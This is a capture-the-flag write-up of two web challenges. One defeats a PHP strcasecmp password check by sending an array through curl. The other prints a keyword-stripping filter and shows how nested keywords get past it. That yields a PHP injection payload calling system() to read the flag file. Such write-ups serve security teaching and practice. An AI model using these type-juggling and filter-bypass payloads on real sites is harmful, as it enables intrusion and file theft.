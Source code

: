 # Just Not My Type
Author: ZeroDayTea  
Description: I really don't think we're compatible ([Link](http://143.198.184.186:7000/))

----------------------------------------------------
Exploit in strcasecmp function. Payloads: `curl -F "password[]=a" http://143.198.184.186:7000/`  
=>
``` html
<h1>I just don't think we're compatible</h1>

<br />
<b>Warning</b>:  strcasecmp() expects parameter 1 to be string, array given in <b>/var/www/html/index.php</b> on line <b>9</b><br />
flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}
<form method="POST">
    Password
    <input type="password" name="password">
    <input type="submit">
</form>
```

flag: `flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}`

# PHat Pottomed Girls  
Author: ZeroDayTea  
Description: Now it's attempt number 3 and this time with a Queen reference! (flag is in the root directory) ([Link](http://143.198.184.186:7001/))  
[phatpottomedgirls.zip](https://2021.killerqueenctf.org/Public/phatpottomedgirls.zip)

-------------------------------------------------------------
All we have to do is creating a payload that can read the flag file in the root directory. Also, this challenge filters these words: 
```php
function filter($originalstring)
{
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}
```
But it just filters 3 times, so when we write this: `strstristrstringsingsngsings`, it will just return `strings`. That's how we bypass the filter.    
First, I used `pwd` to print the working directory, it returned `\var\www\html`. So I just had to go to root directory, use `ls` to see which files are in there, and `strings` it.  
Payload here: `<<<<????php $last_line = syssyssyssystemtemtemtem('cd ..; cd ..; cd ..; strstristrstringsingsngsings flflflflagagagag.php'); echo $last_line; ?>`  

Flag: `flag{wait_but_i_fixed_it_after_my_last_two_blunders_i_even_filtered_three_times_:(((}`

